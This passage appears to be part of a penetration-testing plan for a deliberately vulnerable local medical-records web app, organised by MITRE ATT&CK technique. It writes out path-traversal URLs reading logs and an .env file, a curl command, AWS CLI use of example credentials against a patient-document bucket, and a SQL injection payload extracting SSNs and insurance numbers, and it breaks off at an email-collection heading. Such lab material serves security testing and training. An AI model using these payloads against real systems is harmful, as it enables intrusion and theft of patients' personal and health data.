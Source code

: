 **Attack Vector**:
```
http://localhost:8080/settings.php?file=/var/www/html/uploads/upload_log.txt
http://localhost:8080/settings.php?file=/var/log/apache2/access.log
```

**Testing Steps**:
1. Use file viewer to access logs
2. Read uploaded files
3. Extract sensitive information

---

#### T1530: Data from Cloud Storage

**Description**: Access data in cloud storage.

**Vulnerable Component**: AWS credentials in `.env.example`

**Attack Vector**:
1. Read `.env.example` via directory traversal
2. Extract AWS credentials
3. Access S3 bucket: `medcare-patient-documents`

**Testing Steps**:
```bash
# Extract credentials from .env
curl "http://localhost:8080/settings.php?file=.env.example"

# Use AWS CLI with stolen credentials
export AWS_ACCESS_KEY_ID=AKIAIOSFODNN7EXAMPLE
export AWS_SECRET_ACCESS_KEY=wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY
aws s3 ls s3://medcare-patient-documents
```

---

#### T1213.002: Data from Information Repositories - Sharepoint

**Description**: Collect data from corporate repositories.

**Vulnerable Component**: Database access via SQL injection

**Attack Vector**:
```sql
' UNION SELECT id,first_name,last_name,ssn,date_of_birth,phone,email,address,insurance_policy_number,10,11,12,13,14,15,16,17,18,19,20 FROM patients -- 
```

**Testing Steps**:
1. Use SQL injection to extract patient database
2. Collect all PHI/PII
3. Export to CSV via reports.php

---

#### T1114: Email Collection
